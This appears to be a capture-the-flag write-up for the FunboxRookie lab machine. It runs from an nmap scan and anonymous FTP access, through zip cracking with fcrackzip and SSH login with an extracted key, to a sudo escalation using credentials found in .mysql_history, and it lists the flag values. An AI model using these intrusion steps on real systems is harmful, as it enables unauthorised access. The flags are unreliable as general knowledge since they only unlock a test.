


# FunboxRookie - CTF Writeup

**Difficulty:** Light warm-up  


## Enumeration

Started with an nmap scan to identify open services:
```bash
nmap -sV -p- -T4 192.168.61.107
```

Found three open ports:
- **21/tcp** - ProFTPD 1.3.5e
- **22/tcp** - OpenSSH 7.6p1
- **80/tcp** - Apache 2.4.29 (default page, nothing interesting)



## Web Enumeration

Checked the web server on port 80 - found only the default Apache page with no useful information.
```bash
http://192.168.61.107
```

## FTP Access

Connected to FTP with anonymous login (blank password):
```bash
ftp 192.168.61.107
Username: anonymous
Password: [blank]
```

Discovered multiple password-protected zip files and hidden files:
```bash
ls -la
get .@admins
get .@users
mget *.zip
```

The `.@admins` file contained a base64-encoded message revealing that SSH keys were in the zip files and "passwords are the old ones."



## Cracking the Archive

Used `fcrackzip` with rockyou wordlist to crack the zip passwords:
```bash
fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u tom.zip
```

**Password found:** `iubire`

Extracted tom's SSH private key:
```bash
unzip -P iubire tom.zip
chmod 600 id_rsa
```

## Initial Access

SSH'd into the target as tom:
```bash
ssh -i id_rsa tom@192.168.61.107
```

Grabbed the user flag from `/home/tom/local.txt`


## Privilege Escalation

Checked tom's MySQL history file and found credentials:
```bash
cat .mysql_history
```

Found password: `xx11yy22!`

Tom was in the sudo group, so verified sudo privileges:
```bash
sudo -l
Password: xx11yy22!
```

Output showed: `(ALL : ALL) ALL` - unrestricted sudo access.

Escalated to root:
```bash
sudo su -
```

Retrieved root flag from `/root/proof.txt`


## Flags

- **User Flag:** `e73ccfbd0d9534d560a04b9d47964458`
- **Root Flag:** `7a96a839f88f5f988c8d10ee289e0944`

---

**Rating:** Light warm-up - straightforward enumeration and credential hunting.


